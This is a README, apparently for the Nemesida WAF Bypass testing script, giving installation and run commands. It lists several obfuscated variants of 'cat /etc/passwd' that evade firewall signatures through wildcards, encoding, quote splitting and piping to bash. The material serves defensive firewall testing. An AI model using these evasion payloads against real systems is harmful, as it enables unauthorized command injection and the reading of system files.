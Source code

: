 # WAF Bypass script

WAF bypass is a simple script written in Python3 for testing Web Application Firewall. Turn off ban mode before use.

## When using, do not violate the law. We are not responsible for the use of the program.

A script developed for internal needs, including for testing Nemesis WAF and Nemesida WAF Free, but you can use it to test any WAF.

![WAF Bypass Script](https://camo.githubusercontent.com/acd8bc382d0a8c7488a426d8f9817cf9b3de7c1a/68747470733a2f2f696d672e646566636f6e2e72752f73746f72652f323032302f30372f30303134633466633437623066616538636462386637393634383630366435382e706e67)

There are attacks for which it is impossible to create a signature, while not increasing the number of false positives. Therefore, it is absolutely normal that Nemesida WAF Free bypass the attack, and the commercial version of Nemesida WAF Free blocks. For example, we can execute the <code>cat /etc/passwd</code> command in the following ways:
<pre>
%2f???%2f??t%20%2f???%2fp??s??
cat+/e't'c/pa'ss'wd
e'c'ho 'swd test pentest' |awk '{print "cat /etc/pas"$1}' | bash
ec'h'o 'cat /etc/examplewd' | sed 's/example/pass/g' | bash
</pre>

## How to run

<pre>
# mkdir /opt/waf-bypass/
# git clone https://github.com/nemesida-waf/waf_bypass.git /opt/waf-bypass/
# python3 -m pip install -r /opt/waf-bypass/requirements.txt
# cd /opt/waf-bypass/

Make changes to the settings.conf

# python3 /opt/waf-bypass/main.py
</pre>
